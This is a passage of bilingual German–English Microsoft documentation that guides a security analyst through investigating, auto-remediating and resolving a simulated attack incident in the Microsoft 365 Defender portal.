> <span data-ttu-id="bfc44-200">Bevor wir Sie durch diese Simulation führen, sehen Sie sich das folgende Video an, um zu sehen, wie die Vorfallverwaltung Ihnen hilft, die zugehörigen Warnungen im Rahmen des Untersuchungsprozesses zusammenzuarbeiten, wo Sie sie im Portal finden können und wie sie Ihnen bei Ihren Sicherheitsvorgängen helfen können:</span><span class="sxs-lookup"><span data-stu-id="bfc44-200">Before we walk you through this simulation, watch the following video to see how incident management helps you piece the related alerts together as part of the investigation process, where you can find it in the portal, and how it can help you in your security operations:</span></span>

> [!VIDEO https://www.microsoft.com/videoplayer/embed/RE4Bzwz?]

<span data-ttu-id="bfc44-201">Wenn Sie zur SOC-Analystenansicht wechseln, können Sie jetzt mit der Untersuchung des Angriffs im Microsoft 365 Defender-Portal beginnen.</span><span class="sxs-lookup"><span data-stu-id="bfc44-201">Switching to the SOC analyst point of view, you can now start to investigate the attack in the Microsoft 365 Defender portal.</span></span>

1. <span data-ttu-id="bfc44-202">Öffnen Sie das [Microsoft 365 Defender Portal.](https://security.microsoft.com/)</span><span class="sxs-lookup"><span data-stu-id="bfc44-202">Open the [Microsoft 365 Defender portal](https://security.microsoft.com/).</span></span>

2. <span data-ttu-id="bfc44-203">Wählen Sie im Navigationsbereich **Vorfälle & Warnungen > Vorfälle aus.**</span><span class="sxs-lookup"><span data-stu-id="bfc44-203">From the navigation pane, select **Incidents & Alerts > Incidents**.</span></span>

3. <span data-ttu-id="bfc44-204">Der neue Vorfall für den simulierten Angriff wird in der Vorfallwarteschlange angezeigt.</span><span class="sxs-lookup"><span data-stu-id="bfc44-204">The new incident for the simulated attack will appear in the incident queue.</span></span>

    

#### <a name="investigate-the-attack-as-a-single-incident"></a><span data-ttu-id="bfc44-206">Untersuchen des Angriffs als einzelner Vorfall</span><span class="sxs-lookup"><span data-stu-id="bfc44-206">Investigate the attack as a single incident</span></span>

<span data-ttu-id="bfc44-207">Microsoft 365 Defender korreliert Analysen und aggregiert alle zugehörigen Warnungen und Untersuchungen aus verschiedenen Produkten in einer Vorfallentität.</span><span class="sxs-lookup"><span data-stu-id="bfc44-207">Microsoft 365 Defender correlates analytics and aggregates all related alerts and investigations from different products into one incident entity.</span></span> <span data-ttu-id="bfc44-208">Auf diese Weise zeigt Microsoft 365 Defender eine umfassendere Angriffsstory, die es dem SOC-Analysten ermöglicht, komplexe Bedrohungen zu verstehen und darauf zu reagieren.</span><span class="sxs-lookup"><span data-stu-id="bfc44-208">By doing so, Microsoft 365 Defender shows a broader attack story, allowing the SOC analyst to understand and respond to complex threats.</span></span>

<span data-ttu-id="bfc44-209">Die während dieser Simulation generierten Warnungen sind derselben Bedrohung zugeordnet und werden daher automatisch als einzelner Vorfall aggregiert.</span><span class="sxs-lookup"><span data-stu-id="bfc44-209">The alerts generated during this simulation are associated with the same threat, and as a result, are automatically aggregated as a single incident.</span></span>

<span data-ttu-id="bfc44-210">So zeigen Sie den Vorfall an:</span><span class="sxs-lookup"><span data-stu-id="bfc44-210">To view the incident:</span></span>

1. <span data-ttu-id="bfc44-211">Öffnen Sie das [Microsoft 365 Defender Portal.](https://security.microsoft.com/)</span><span class="sxs-lookup"><span data-stu-id="bfc44-211">Open the [Microsoft 365 Defender portal](https://security.microsoft.com/).</span></span>

2. <span data-ttu-id="bfc44-212">Wählen Sie im Navigationsbereich **Vorfälle & Warnungen > Vorfälle aus.**</span><span class="sxs-lookup"><span data-stu-id="bfc44-212">From the navigation pane, select **Incidents & Alerts > Incidents**.</span></span>

3. <span data-ttu-id="bfc44-213">Wählen Sie das neueste Element aus, indem Sie auf den Kreis links neben dem Vorfallnamen klicken.</span><span class="sxs-lookup"><span data-stu-id="bfc44-213">Select the newest item by clicking on the circle located left of the incident name.</span></span> <span data-ttu-id="bfc44-214">In einem Seitenbereich werden zusätzliche Informationen zu dem Vorfall angezeigt, einschließlich aller zugehörigen Warnungen.</span><span class="sxs-lookup"><span data-stu-id="bfc44-214">A side panel displays additional information about the incident, including all the related alerts.</span></span> <span data-ttu-id="bfc44-215">Jeder Vorfall hat einen eindeutigen Namen, der ihn basierend auf den Attributen der enthaltenen Warnungen beschreibt.</span><span class="sxs-lookup"><span data-stu-id="bfc44-215">Each incident has a unique name that describes it based on the attributes of the alerts it includes.</span></span>

   <span data-ttu-id="bfc44-216">Die im Dashboard angezeigten Warnungen können basierend auf Dienstressourcen gefiltert werden: Microsoft Defender for Identity, Microsoft Cloud App Security, Microsoft Defender für Endpunkt, Microsoft 365 Defender und Microsoft Defender für Office 365.</span><span class="sxs-lookup"><span data-stu-id="bfc44-216">The alerts that are shown in the dashboard can be filtered based on service resources: Microsoft Defender for Identity, Microsoft Cloud App Security, Microsoft Defender for Endpoint, Microsoft 365 Defender, and Microsoft Defender for Office 365.</span></span>

3. <span data-ttu-id="bfc44-217">Wählen Sie **die Seite "Vorfall öffnen"** aus, um weitere Informationen zu dem Vorfall zu erhalten.</span><span class="sxs-lookup"><span data-stu-id="bfc44-217">Select **Open incident page** to get more information about the incident.</span></span>

   <span data-ttu-id="bfc44-218">Auf der **Seite "Vorfall"** können Sie alle Warnungen und Informationen im Zusammenhang mit dem Vorfall anzeigen.</span><span class="sxs-lookup"><span data-stu-id="bfc44-218">In the **Incident** page, you can see all the alerts and information related to the incident.</span></span> <span data-ttu-id="bfc44-219">Die Informationen umfassen die Entitäten und Ressourcen, die an der Warnung beteiligt sind, die Erkennungsquelle der Warnungen (z. B. Microsoft Defender for Identity oder Microsoft Defender für Endpunkt) und den Grund, warum sie miteinander verknüpft wurden.</span><span class="sxs-lookup"><span data-stu-id="bfc44-219">The information includes the entities and assets that are involved in the alert, the detection source of the alerts (such as Microsoft Defender for Identity or Microsoft Defender for Endpoint), and the reason they were linked together.</span></span> <span data-ttu-id="bfc44-220">Die Überprüfung der Warnungsliste für Vorfälle zeigt den Verlauf des Angriffs an.</span><span class="sxs-lookup"><span data-stu-id="bfc44-220">Reviewing the incident alert list shows the progression of the attack.</span></span> <span data-ttu-id="bfc44-221">Aus dieser Ansicht können Sie die einzelnen Warnungen sehen und untersuchen.</span><span class="sxs-lookup"><span data-stu-id="bfc44-221">From this view, you can see and investigate the individual alerts.</span></span>

   <span data-ttu-id="bfc44-222">Sie können auch im rechten Menü auf **"Vorfall verwalten"** klicken, um den Vorfall zu kennzeichnen, sich selbst zuzuweisen und Kommentare hinzuzufügen.</span><span class="sxs-lookup"><span data-stu-id="bfc44-222">You can also click **Manage incident** from the right-hand menu, to tag the incident, assign it to yourself, and add comments.</span></span>

#### <a name="review-generated-alerts"></a><span data-ttu-id="bfc44-223">Überprüfen generierter Warnungen</span><span class="sxs-lookup"><span data-stu-id="bfc44-223">Review generated alerts</span></span>

<span data-ttu-id="bfc44-224">Sehen wir uns einige der Warnungen an, die während des simulierten Angriffs generiert wurden.</span><span class="sxs-lookup"><span data-stu-id="bfc44-224">Let's look at some of the alerts generated during the simulated attack.</span></span>

> [!NOTE]
> <span data-ttu-id="bfc44-225">Wir werden nur einige der Warnungen durchgehen, die während des simulierten Angriffs generiert wurden.</span><span class="sxs-lookup"><span data-stu-id="bfc44-225">We'll walk through only a few of the alerts generated during the simulated attack.</span></span> <span data-ttu-id="bfc44-226">Abhängig von der Version von Windows und den Microsoft 365 Defender Produkten, die auf Ihrem Testgerät ausgeführt werden, werden möglicherweise weitere Warnungen angezeigt, die in einer etwas anderen Reihenfolge angezeigt werden.</span><span class="sxs-lookup"><span data-stu-id="bfc44-226">Depending on the version of Windows and the Microsoft 365 Defender products running on your test device, you might see more alerts that appear in a slightly different order.</span></span>


##### <a name="alert-suspicious-process-injection-observed-source-microsoft-defender-for-endpoint"></a><span data-ttu-id="bfc44-228">Warnung: Verdächtige Prozesseinschleusung beobachtet (Quelle: Microsoft Defender für Endpunkt)</span><span class="sxs-lookup"><span data-stu-id="bfc44-228">Alert: Suspicious process injection observed (Source: Microsoft Defender for Endpoint)</span></span>

<span data-ttu-id="bfc44-229">Fortgeschrittene Angreifer verwenden ausgefeilte und bösartige Methoden, um im Arbeitsspeicher zu bleiben und sich vor Erkennungstools zu verbergen.</span><span class="sxs-lookup"><span data-stu-id="bfc44-229">Advanced attackers use sophisticated and stealthy methods to persist in memory and hide from detection tools.</span></span> <span data-ttu-id="bfc44-230">Eine gängige Technik besteht darin, innerhalb eines vertrauenswürdigen Systemprozesses zu arbeiten, anstatt eine schädliche ausführbare Datei zu verwenden, wodurch es für Erkennungstools und Sicherheitsvorgänge schwierig wird, den schädlichen Code zu erkennen.</span><span class="sxs-lookup"><span data-stu-id="bfc44-230">One common technique is to operate from within a trusted system process rather than a malicious executable, making it hard for detection tools and security operations to spot the malicious code.</span></span>

<span data-ttu-id="bfc44-231">Damit die SOC-Analysten diese erweiterten Angriffe abfangen können, bieten tiefe Speichersensoren in Microsoft Defender für Endpunkt unserem Clouddienst einen beispiellosen Einblick in eine Vielzahl von prozessübergreifenden Codeeinfügungstechniken.</span><span class="sxs-lookup"><span data-stu-id="bfc44-231">To allow the SOC analysts to catch these advanced attacks, deep memory sensors in Microsoft Defender for Endpoint provide our cloud service with unprecedented visibility into a variety of cross-process code injection techniques.</span></span> <span data-ttu-id="bfc44-232">Die folgende Abbildung zeigt, wie Defender für Endpunkt beim Versuch, Code in <i>notepad.exe</i>einzufügen, erkannt und benachrichtigt wurde.</span><span class="sxs-lookup"><span data-stu-id="bfc44-232">The following figure shows how Defender for Endpoint detected and alerted on the attempt to inject code to <i>notepad.exe</i>.</span></span>


##### <a name="alert-unexpected-behavior-observed-by-a-process-run-with-no-command-line-arguments-source-microsoft-defender-for-endpoint"></a><span data-ttu-id="bfc44-234">Warnung: Unerwartetes Verhalten, das von einem Prozess ohne Befehlszeilenargumente beobachtet wird (Quelle: Microsoft Defender für Endpunkt)</span><span class="sxs-lookup"><span data-stu-id="bfc44-234">Alert: Unexpected behavior observed by a process run with no command-line arguments (Source: Microsoft Defender for Endpoint)</span></span>

<span data-ttu-id="bfc44-235">Microsoft Defender für Endpunkt-Erkennungen zielen häufig auf das am häufigsten verwendete Attribut einer Angriffstechnik ab.</span><span class="sxs-lookup"><span data-stu-id="bfc44-235">Microsoft Defender for Endpoint detections often target the most common attribute of an attack technique.</span></span> <span data-ttu-id="bfc44-236">Diese Methode stellt Dies sicher und erhöht die Messlatte für Angreifer, um zu neueren Taktiken zu wechseln.</span><span class="sxs-lookup"><span data-stu-id="bfc44-236">This method ensures durability and raises the bar for attackers to switch to newer tactics.</span></span>

<span data-ttu-id="bfc44-237">Wir verwenden umfangreiche Lernalgorithmen, um das normale Verhalten gängiger Prozesse innerhalb einer Organisation und weltweit zu ermitteln und zu beobachten, wann diese Prozesse anomales Verhalten aufweisen.</span><span class="sxs-lookup"><span data-stu-id="bfc44-237">We employ large-scale learning algorithms to establish the normal behavior of common processes within an organization and worldwide and watch for when these processes show anomalous behaviors.</span></span> <span data-ttu-id="bfc44-238">Diese anomaalen Verhaltensweisen weisen häufig darauf hin, dass fremder Code eingeführt wurde und in einem ansonsten vertrauenswürdigen Prozess ausgeführt wird.</span><span class="sxs-lookup"><span data-stu-id="bfc44-238">These anomalous behaviors often indicate that extraneous code was introduced and is running in an otherwise trusted process.</span></span>

<span data-ttu-id="bfc44-239">In diesem Szenario weist der Prozess <i>notepad.exe</i> ein ungewöhnliches Verhalten auf, das die Kommunikation mit einem externen Standort einschließt.</span><span class="sxs-lookup"><span data-stu-id="bfc44-239">For this scenario, the process <i>notepad.exe</i> is exhibiting abnormal behavior, involving communication with an external location.</span></span> <span data-ttu-id="bfc44-240">Dieses Ergebnis ist unabhängig von der spezifischen Methode, die zum Einführen und Ausführen des schädlichen Codes verwendet wird.</span><span class="sxs-lookup"><span data-stu-id="bfc44-240">This outcome is independent of the specific method used to introduce and execute the malicious code.</span></span>

> [!NOTE]
> <span data-ttu-id="bfc44-241">Da diese Warnung auf Machine Learning-Modellen basiert, die eine zusätzliche Back-End-Verarbeitung erfordern, kann es einige Zeit dauern, bis diese Warnung im Portal angezeigt wird.</span><span class="sxs-lookup"><span data-stu-id="bfc44-241">Because this alert is based on machine-learning models that require additional backend processing, it might take some time before you see this alert in the portal.</span></span>

<span data-ttu-id="bfc44-242">Beachten Sie, dass die Warnungsdetails die externe IP-Adresse enthalten – ein Indikator, den Sie als Pivot verwenden können, um die Untersuchung zu erweitern.</span><span class="sxs-lookup"><span data-stu-id="bfc44-242">Notice that the alert details include the external IP address—an indicator that you can use as a pivot to expand investigation.</span></span>

<span data-ttu-id="bfc44-243">Wählen Sie die IP-Adresse in der Warnungsprozessstruktur aus, um die Seite mit den IP-Adressdetails anzuzeigen.</span><span class="sxs-lookup"><span data-stu-id="bfc44-243">Select the IP address in the alert process tree to view the IP address details page.</span></span>


<span data-ttu-id="bfc44-245">In der folgenden Abbildung wird die ausgewählte Seite mit den IP-Adressdetails angezeigt (klicken Sie in der Struktur des Warnungsprozesses auf die IP-Adresse).</span><span class="sxs-lookup"><span data-stu-id="bfc44-245">The following figure displays the selected IP Address details page (clicking on IP address in the Alert process tree).</span></span>


##### <a name="alert-user-and-ip-address-reconnaissance-smb-source-microsoft-defender-for-identity"></a><span data-ttu-id="bfc44-247">Warnung: Benutzer- und IP-Adress-Reconnaissance (SMB) (Quelle: Microsoft Defender for Identity)</span><span class="sxs-lookup"><span data-stu-id="bfc44-247">Alert: User and IP address reconnaissance (SMB) (Source: Microsoft Defender for Identity)</span></span>

<span data-ttu-id="bfc44-248">Die Aufzählung mithilfe des SMB-Protokolls (Server Message Block) ermöglicht Es Angreifern, aktuelle Benutzeranmeldeinformationen abzurufen, mit denen sie seitlich durch das Netzwerk navigieren können, um auf ein bestimmtes vertrauliches Konto zuzugreifen.</span><span class="sxs-lookup"><span data-stu-id="bfc44-248">Enumeration using Server Message Block (SMB) protocol enables attackers to get recent user logon information that helps them move laterally through the network to access a specific sensitive account.</span></span>

<span data-ttu-id="bfc44-249">Bei dieser Erkennung wird eine Warnung ausgelöst, wenn die SMB-Sitzungsenumeration für einen Domänencontroller ausgeführt wird.</span><span class="sxs-lookup"><span data-stu-id="bfc44-249">In this detection, an alert is triggered when the SMB session enumeration runs against a domain controller.</span></span>



#### <a name="review-the-device-timeline-with-microsoft-defender-for-endpoint"></a><span data-ttu-id="bfc44-251">Überprüfen der Gerätezeitachse mit Microsoft Defender für Endpunkt</span><span class="sxs-lookup"><span data-stu-id="bfc44-251">Review the device timeline with Microsoft Defender for Endpoint</span></span>

<span data-ttu-id="bfc44-252">Nachdem Sie die verschiedenen Warnungen in diesem Vorfall untersucht haben, navigieren Sie zurück zu der Vorfallseite, die Sie zuvor untersucht haben.</span><span class="sxs-lookup"><span data-stu-id="bfc44-252">After exploring the various alerts in this incident, navigate back to the incident page you investigated earlier.</span></span> <span data-ttu-id="bfc44-253">Wählen Sie die Registerkarte **"Geräte"** auf der Vorfallseite aus, um die an diesem Vorfall beteiligten Geräte zu überprüfen, wie von Microsoft Defender für Endpunkt und Microsoft Defender for Identity gemeldet.</span><span class="sxs-lookup"><span data-stu-id="bfc44-253">Select the **Devices** tab in the incident page to review the devices involved in this incident as reported by Microsoft Defender for Endpoint and Microsoft Defender for Identity.</span></span>

<span data-ttu-id="bfc44-254">Wählen Sie den Namen des Geräts aus, auf dem der Angriff ausgeführt wurde, um die Entitätsseite für dieses bestimmte Gerät zu öffnen.</span><span class="sxs-lookup"><span data-stu-id="bfc44-254">Select the name of the device where the attack was conducted, to open the entity page for that specific device.</span></span> <span data-ttu-id="bfc44-255">Auf dieser Seite können Sie Warnungen sehen, die ausgelöst wurden, und verwandte Ereignisse.</span><span class="sxs-lookup"><span data-stu-id="bfc44-255">In that page, you can see alerts that were triggered and related events.</span></span>

<span data-ttu-id="bfc44-256">Wählen Sie die Registerkarte **"Zeitachse"** aus, um die Gerätezeitachse zu öffnen und alle auf dem Gerät beobachteten Ereignisse und Verhaltensweisen in chronologischer Reihenfolge anzuzeigen, durchsetzt mit den ausgelösten Warnungen.</span><span class="sxs-lookup"><span data-stu-id="bfc44-256">Select the **Timeline** tab to open the device timeline and view all events and behaviors observed on the device in chronological order, interspersed with the alerts raised.</span></span>


<span data-ttu-id="bfc44-258">Das Erweitern einiger der interessanteren Verhaltensweisen liefert nützliche Details, z. B. Prozessstrukturen.</span><span class="sxs-lookup"><span data-stu-id="bfc44-258">Expanding some of the more interesting behaviors provides useful details, such as process trees.</span></span>

<span data-ttu-id="bfc44-259">Scrollen Sie beispielsweise nach unten, bis Sie das Warnungsereignis **"Verdächtige Prozessinjektion" gefunden haben.**</span><span class="sxs-lookup"><span data-stu-id="bfc44-259">For example, scroll down until you find the alert event **Suspicious process injection observed**.</span></span> <span data-ttu-id="bfc44-260">Wählen Sie diepowershell.exe aus, die **in notepad.exe Prozessereignis** darunter eingefügt wurde, um die vollständige Prozessstruktur für dieses Verhalten unter dem Diagramm **"Ereignisentitäten"** im Seitenbereich anzuzeigen.</span><span class="sxs-lookup"><span data-stu-id="bfc44-260">Select the **powershell.exe injected to notepad.exe process** event below it, to display the full process tree for this behavior under the **Event entities** graph on the side pane.</span></span> <span data-ttu-id="bfc44-261">Verwenden Sie bei Bedarf die Suchleiste zum Filtern.</span><span class="sxs-lookup"><span data-stu-id="bfc44-261">Use the search bar for filtering if necessary.</span></span>


#### <a name="review-the-user-information-with-microsoft-cloud-app-security"></a><span data-ttu-id="bfc44-263">Überprüfen der Benutzerinformationen mit Microsoft Cloud App Security</span><span class="sxs-lookup"><span data-stu-id="bfc44-263">Review the user information with Microsoft Cloud App Security</span></span>

<span data-ttu-id="bfc44-264">Wählen Sie auf der Vorfallseite die Registerkarte **"Benutzer"** aus, um die Liste der an dem Angriff beteiligten Benutzer anzuzeigen.</span><span class="sxs-lookup"><span data-stu-id="bfc44-264">On the incident page, select the **Users** tab to display the list of users involved in the attack.</span></span> <span data-ttu-id="bfc44-265">Die Tabelle enthält zusätzliche Informationen zu jedem Benutzer, einschließlich der Bewertung der **Untersuchungspriorität** jedes Benutzers.</span><span class="sxs-lookup"><span data-stu-id="bfc44-265">The table contains additional information about each user, including each user's **Investigation Priority** score.</span></span>

<span data-ttu-id="bfc44-266">Wählen Sie den Benutzernamen aus, um die Profilseite des Benutzers zu öffnen, auf der weitere Untersuchungen durchgeführt werden können.</span><span class="sxs-lookup"><span data-stu-id="bfc44-266">Select the user name to open the user's profile page where further investigation can be conducted.</span></span> <span data-ttu-id="bfc44-267">[Weitere Informationen zur Untersuchung riskanter Benutzer.](/cloud-app-security/tutorial-ueba#identify)</span><span class="sxs-lookup"><span data-stu-id="bfc44-267">[Read more about investigating risky users](/cloud-app-security/tutorial-ueba#identify).</span></span>


#### <a name="automated-investigation-and-remediation"></a><span data-ttu-id="bfc44-269">Automatische Untersuchung und Reaktion</span><span class="sxs-lookup"><span data-stu-id="bfc44-269">Automated investigation and remediation</span></span>

> [!NOTE]
><span data-ttu-id="bfc44-270">Bevor wir Sie durch diese Simulation führen, sehen Sie sich das folgende Video an, um sich mit der automatisierten Selbstkorrektur vertraut zu machen, wo sie im Portal zu finden ist und wie sie bei Ihren Sicherheitsvorgängen helfen kann:</span><span class="sxs-lookup"><span data-stu-id="bfc44-270">Before we walk you through this simulation, watch the following video to get familiar with what automated self-healing is, where to find it in the portal, and how it can help in your security operations:</span></span>

> [!VIDEO https://www.microsoft.com/en-us/videoplayer/embed/RE4BzwB]

<span data-ttu-id="bfc44-271">Navigieren Sie im Microsoft 365 Defender Portal zurück zu dem Vorfall.</span><span class="sxs-lookup"><span data-stu-id="bfc44-271">Navigate back to the incident in the Microsoft 365 Defender portal.</span></span> <span data-ttu-id="bfc44-272">Auf der Registerkarte **"Untersuchungen"** auf der **Seite "Vorfall"** werden die automatisierten Untersuchungen angezeigt, die von Microsoft Defender for Identity und Microsoft Defender für Endpunkt ausgelöst wurden.</span><span class="sxs-lookup"><span data-stu-id="bfc44-272">The **Investigations** tab in the **Incident** page shows the automated investigations that were triggered by Microsoft Defender for Identity and Microsoft Defender for Endpoint.</span></span> <span data-ttu-id="bfc44-273">Der screenshot unten zeigt nur die automatisierte Untersuchung, die von Defender für Endpunkt ausgelöst wurde.</span><span class="sxs-lookup"><span data-stu-id="bfc44-273">The screenshot below displays only the automated investigation triggered by Defender for Endpoint.</span></span> <span data-ttu-id="bfc44-274">Standardmäßig behebt Defender für Endpunkt automatisch die Artefakte in der Warteschlange, was eine Korrektur erfordert.</span><span class="sxs-lookup"><span data-stu-id="bfc44-274">By default, Defender for Endpoint automatically remediates the artifacts found in the queue, which requires remediation.</span></span>


<span data-ttu-id="bfc44-276">Wählen Sie die Warnung aus, die eine Untersuchung ausgelöst hat, um die Seite **"Untersuchungsdetails"** zu öffnen.</span><span class="sxs-lookup"><span data-stu-id="bfc44-276">Select the alert that triggered an investigation to open the **Investigation details** page.</span></span> <span data-ttu-id="bfc44-277">Die folgenden Details werden angezeigt:</span><span class="sxs-lookup"><span data-stu-id="bfc44-277">You'll see the following details:</span></span>

- <span data-ttu-id="bfc44-278">Warnungen, die die automatisierte Untersuchung ausgelöst haben.</span><span class="sxs-lookup"><span data-stu-id="bfc44-278">Alert(s) that triggered the automated investigation.</span></span>
- <span data-ttu-id="bfc44-279">Betroffene Benutzer und Geräte.</span><span class="sxs-lookup"><span data-stu-id="bfc44-279">Impacted users and devices.</span></span> <span data-ttu-id="bfc44-280">Wenn Indikatoren auf zusätzlichen Geräten gefunden werden, werden auch diese zusätzlichen Geräte aufgeführt.</span><span class="sxs-lookup"><span data-stu-id="bfc44-280">If indicators are found on additional devices, these additional devices will be listed as well.</span></span>
- <span data-ttu-id="bfc44-281">Liste der Nachweise.</span><span class="sxs-lookup"><span data-stu-id="bfc44-281">List of evidence.</span></span> <span data-ttu-id="bfc44-282">Die gefundenen und analysierten Entitäten, z. B. Dateien, Prozesse, Dienste, Treiber und Netzwerkadressen.</span><span class="sxs-lookup"><span data-stu-id="bfc44-282">The entities found and analyzed, such as files, processes, services, drivers, and network addresses.</span></span> <span data-ttu-id="bfc44-283">Diese Entitäten werden auf mögliche Beziehungen zur Warnung analysiert und als gutartig oder bösartig eingestuft.</span><span class="sxs-lookup"><span data-stu-id="bfc44-283">These entities are analyzed for possible relationships to the alert and rated as benign or malicious.</span></span>
- <span data-ttu-id="bfc44-284">Bedrohungen gefunden.</span><span class="sxs-lookup"><span data-stu-id="bfc44-284">Threats found.</span></span> <span data-ttu-id="bfc44-285">Bekannte Bedrohungen, die während der Untersuchung gefunden werden.</span><span class="sxs-lookup"><span data-stu-id="bfc44-285">Known threats that are found during the investigation.</span></span>

> [!NOTE]
> <span data-ttu-id="bfc44-286">Je nach Zeitpunkt kann die automatisierte Untersuchung noch ausgeführt werden.</span><span class="sxs-lookup"><span data-stu-id="bfc44-286">Depending on timing, the automated investigation might still be running.</span></span> <span data-ttu-id="bfc44-287">Warten Sie einige Minuten, bis der Prozess abgeschlossen ist, bevor Sie die Nachweise sammeln und analysieren und die Ergebnisse überprüfen.</span><span class="sxs-lookup"><span data-stu-id="bfc44-287">Wait a few minutes for the process to complete before you collect and analyze the evidence and review the results.</span></span> <span data-ttu-id="bfc44-288">Aktualisieren Sie die **Seite "Untersuchungsdetails",** um die neuesten Ergebnisse zu erhalten.</span><span class="sxs-lookup"><span data-stu-id="bfc44-288">Refresh the **Investigation details** page to get the latest findings.</span></span>


<span data-ttu-id="bfc44-290">Während der automatisierten Untersuchung hat Microsoft Defender für Endpunkt den notepad.exe Prozess identifiziert, der als eines der Artefakte eingefügt wurde, die eine Korrektur erfordern.</span><span class="sxs-lookup"><span data-stu-id="bfc44-290">During the automated investigation, Microsoft Defender for Endpoint identified the notepad.exe process, which was injected as one of the artifacts requiring remediation.</span></span> <span data-ttu-id="bfc44-291">Defender für Endpunkt stoppt automatisch die verdächtige Prozesseinschleusung als Teil der automatisierten Korrektur.</span><span class="sxs-lookup"><span data-stu-id="bfc44-291">Defender for Endpoint automatically stops the suspicious process injection as part of the automated remediation.</span></span>

<span data-ttu-id="bfc44-292">Sie können <i> sehen,notepad.exe</i> aus der Liste der ausgeführten Prozesse auf dem Testgerät ausgeblendet werden.</span><span class="sxs-lookup"><span data-stu-id="bfc44-292">You can see <i>notepad.exe</i> disappear from the list of running processes on the test device.</span></span>

#### <a name="resolve-the-incident"></a><span data-ttu-id="bfc44-293">Beheben des Vorfalls</span><span class="sxs-lookup"><span data-stu-id="bfc44-293">Resolve the incident</span></span>

<span data-ttu-id="bfc44-294">Nachdem die Untersuchung abgeschlossen ist und bestätigt wurde, dass sie behoben wird, beheben Sie den Vorfall.</span><span class="sxs-lookup"><span data-stu-id="bfc44-294">After the investigation is complete and confirmed to be remediated, you resolve the incident.</span></span>

<span data-ttu-id="bfc44-295">Wählen Sie auf der Seite **"Vorfall"** die Option **"Vorfall verwalten"** aus.</span><span class="sxs-lookup"><span data-stu-id="bfc44-295">From the **Incident** page, select **Manage incident**.</span></span> <span data-ttu-id="bfc44-296">Legen Sie den Status auf **"Vorfall beheben"** fest, und wählen Sie **"True"-Warnung** für die Klassifizierung und **die Sicherheitstests** für die Ermittlung aus.</span><span class="sxs-lookup"><span data-stu-id="bfc44-296">Set the status to **Resolve incident** and select **True alert** for the classification and **Security testing** for the determination.</span></span>


<span data-ttu-id="bfc44-298">Wenn der Vorfall behoben ist, werden alle zugehörigen Warnungen in Microsoft 365 Defender Portal und in den zugehörigen Portalen aufgelöst.</span><span class="sxs-lookup"><span data-stu-id="bfc44-298">When the incident is resolved, it resolves all of the associated alerts in Microsoft 365 Defender portal and in the related portals.</span></span>

<span data-ttu-id="bfc44-299">Dies schließt die Angriffssimulation für die Vorfallanalyse, automatisierte Untersuchung und Vorfalllösung ein.</span><span class="sxs-lookup"><span data-stu-id="bfc44-299">This wraps up the attack simulation for incident analysis, automated investigation, and incident resolution.</span></span>

## <a name="next-step"></a><span data-ttu-id="bfc44-300">Nächster Schritt</span><span class="sxs-lookup"><span data-stu-id="bfc44-300">Next step</span></span>

<span data-ttu-id="bfc44-301">[](eval-defender-investigate-respond-additional.md)</span><span class="sxs-lookup"><span data-stu-id="bfc44-301">[](eval-defender-investigate-respond-additional.md)</span></span>

<span data-ttu-id="bfc44-302">Schritt 2 von 2: [Testen Microsoft 365 Defender Vorfallreaktionsfunktionen](eval-defender-investigate-respond-additional.md)</span><span class="sxs-lookup"><span data-stu-id="bfc44-302">Step 2 of 2: [Try Microsoft 365 Defender incident response capabilities](eval-defender-investigate-respond-additional.md)</span></span>

### <a name="navigation-you-may-need"></a><span data-ttu-id="bfc44-303">Navigation, die Sie möglicherweise benötigen</span><span class="sxs-lookup"><span data-stu-id="bfc44-303">Navigation you may need</span></span>

[<span data-ttu-id="bfc44-304">Erstellen der Microsoft 365 Defender-Evaluierungsumgebung</span><span class="sxs-lookup"><span data-stu-id="bfc44-304">Create the Microsoft 365 Defender Evaluation Environment</span></span>](eval-create-eval-environment.md)
